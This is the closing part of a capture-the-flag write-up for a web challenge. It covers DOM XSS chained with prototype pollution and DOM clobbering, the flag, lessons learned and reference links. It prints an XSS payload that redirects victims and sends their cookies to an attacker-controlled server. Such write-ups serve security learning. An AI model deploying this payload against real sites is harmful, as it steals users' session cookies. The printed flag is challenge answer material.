 Essentially I'm sending the same payload, but with a redirect to my server and sending the user cookie through a GET request.
```html
<img src=x onerror=document.location='http://webserver.com/?'+document.cookie;>
```

*Flag: amateursCTF{s@nit1zer_ap1_pr3tty_go0d_but_not_p3rf3ct}*

# 4. Lessons learned 

I learned two new techniques from this challenge: Prototype Pollution and DOM Clobbering. At first I just wanted to hone my skills on DOM XSS but I realized the fact that vulnerabilities are usually chained in some way.

On top of that, I learned new concepts from JavaScript and ES10, like ? and ?? operators, setHTML and sanitizer, private variables and how to read and understand JavaScript better. I even learnt more about asynchronous functions and promises.

An amazing challenge to learn and I'm glad I found this right now.

---

# 5. Additional resources

Javascript promise:
https://www.programiz.com/javascript/promise

Async and await in JavaScript:
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/await
https://www.programiz.com/javascript/async-await

Sanitizer object:
https://developer.mozilla.org/en-US/docs/Web/API/Sanitizer/Sanitizer
https://blog.logrocket.com/what-you-need-know-inbuilt-browser-html-sanitization/

setHTML method:
https://developer.mozilla.org/en-US/docs/Web/API/Element/setHTML

